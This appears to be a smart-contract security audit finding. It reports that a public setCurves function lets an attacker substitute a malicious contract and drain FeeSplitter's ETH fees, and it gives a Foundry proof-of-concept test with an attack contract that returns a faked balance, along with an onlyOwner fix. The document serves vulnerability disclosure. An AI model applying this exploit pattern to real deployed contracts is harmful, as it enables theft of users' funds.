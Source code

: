 

## [H-01]  Attacker can drain FeeSplitter ETH balance because `setCurves` function is public.

## Impact 
The fees of the contract is drained.
Detailed description of the impact of this finding.
Attack scenario:
1 - Attacker set his malicious address into the setCurves function.
2 - In the `balanceOf` function, where the malicious Curves is called, attacker set his balance to any arbitrary(max) number.
3 - Attacker calls the `claimFees` function which executes `updateFeeCredit` function. Because it calculates the balance based of overriden maliciously balanceOf function we would able to drain the funds.


**Proof-of-Concept**
```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.7;

import {Test} from "../lib/forge-std/src/Test.sol";
import "../lib/forge-std/src/console.sol";
import {Curves} from "../contracts/Curves.sol";
import {FeeSplitter} from "../contracts/FeeSplitter.sol";
import {CurvesERC20Factory} from "../contracts/CurvesERC20Factory.sol";
import "../contracts/CurvesERC20.sol";
import "../contracts/Security.sol";

contract CounterTest is Test {
address user1 = makeAddr("user1");
address user2 = makeAddr("user2");
address user3 = makeAddr("user3");
address user4 = makeAddr("user4");
address deployer = makeAddr("deployer");
address attacker = makeAddr("attacker");

Curves curves;
FeeSplitter feeSplitter;
CurvesERC20Factory curvesERC20Factory;
CurvesERC20 curvesERC20;
Security security;
CurvesAttack attackContract;


function setUp() external{

    vm.startPrank(deployer);
    //Set up all the neccessery contracts
    security = new Security();
    curvesERC20Factory = new CurvesERC20Factory();
    feeSplitter = new FeeSplitter();
    curves = new Curves(
        address(curvesERC20Factory),
        address(feeSplitter)
        );

    // - Set all the neccessery fees
    curves.setMaxFeePercent(20000000000000000000);
    curves.setProtocolFeePercent(50000000000000000, address(deployer)); //3% fees for the protocol
    curves.setExternalFeePercent(20000000000000000 , 20000000000000000 , 20000000000000000); //2% for the subject, refferal, holder
    curves.setERC20Factory(address(curvesERC20Factory));
    feeSplitter.setCurves(Curves(curves));

    deal(address(feeSplitter), 5 ether);

    vm.stopPrank();
}

function test_attack() external{
    ////Set-up/////
    vm.startPrank(deployer);
    deal(deployer, 1 ether);
    curves.buyCurvesToken{value: 0 ether}(address(deployer), 1);
    curves.setReferralFeeDestination(address(deployer), address(deployer));
    vm.stopPrank();

    vm.prank(user2);
    deal(user2, 1 ether);
    curves.buyCurvesToken{value: 1 ether}(address(deployer), 1);


    vm.prank(user3);
    deal(user3, 1 ether);
    curves.buyCurvesToken{value: 1 ether}(address(deployer), 1);

    ////Attack start////

    //Set up the attack contract
    vm.prank(attacker);
    attackContract = new CurvesAttack(address(curves), address(feeSplitter));
    deal(address(attackContract), 1 ether);

    //Set the malicious(attack) contract
    vm.prank(attacker);
    feeSplitter.setCurves(Curves(address(attackContract)));

    console.log("Balance of the feeSplitter before(5 ether)", address(feeSplitter).balance);
    //Drain the feeSplitter
    vm.prank(attacker);
    feeSplitter.claimFees(address(deployer));
    console.log("Balance of the feeSplitter after(0,07 ether)", address(feeSplitter).balance); 
}
}

contract CurvesAttack{
address owner;
address feeSplitter;
constructor(address _curves, address _feespliter){
    owner = msg.sender;
    feeSplitter = (_feespliter);
}

function curvesTokenBalance(address _token,  address _account) external returns(uint256) {
    if(_account == owner){
        //any malicious number
        return  2150000;
    }else{
        return 0;
    }
}
receive() external payable{}

}
```

## Tools Used
Manual Review, Foundry


## Recommended Mitigation Steps
Set the onlyOwner modifier on the setCurves function.
